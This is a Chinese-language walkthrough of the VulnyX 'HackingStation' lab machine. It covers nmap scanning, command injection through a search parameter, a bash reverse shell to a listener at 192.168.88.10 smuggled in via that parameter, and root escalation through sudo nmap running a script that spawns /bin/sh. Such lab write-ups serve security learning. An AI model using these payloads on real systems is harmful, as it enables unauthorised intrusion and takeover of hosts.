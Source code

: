 # 环境

来自[vulnyx_HackingStation](https://vulnyx.com/#HackingStation)

# 信息收集

## 主机发现

```bash
sudo nmap -sn 192.168.88.0/24
```

![image-20240712164414439](image/image-20240712164414439.png)

## 端口扫描

```bash
sudo nmap -sT -r -p- 192.168.88.32
```

![image-20240712164643449](image/image-20240712164643449.png)

## 服务详情

```bash
sudo nmap -sV -sC -O -p80 192.168.88.32
```

![image-20240712164920040](image/image-20240712164920040.png)

## 目录扫描

```bash
dirsearch -u http://192.168.88.32
```

# web渗透



## 命令执行拿shell

访问80，发现有个搜索功能

![image-20240712170820763](image/image-20240712170820763.png)

我们尝试sql注入发现无果，然后尝试命令执行，payload=`http://192.168.88.32/exploitQuery.php?product=apache;id`

![image-20240712171150937](image/image-20240712171150937.png)

进行反弹shell，抓包使用url编码发送

payload=`http://192.168.88.32/exploitQuery.php?product=apache;bash -c 'bash -i >& /dev/tcp/192.168.88.10/8888 0>&1'`

![image-20240712171758082](image/image-20240712171758082.png)

![image-20240712171833570](image/image-20240712171833570.png)

## 提取

```bash
sudo -l
```

![image-20240712173323390](image/image-20240712173323390.png)

发现nmap可以使用root权限，[nmap命令提取](https://gtfobins.github.io/gtfobins/nmap/)

```bash
TF=$(mktemp)
echo 'os.execute("/bin/sh")' > $TF
sudo nmap --script=$TF
```

![image-20240712174116764](image/image-20240712174116764.png)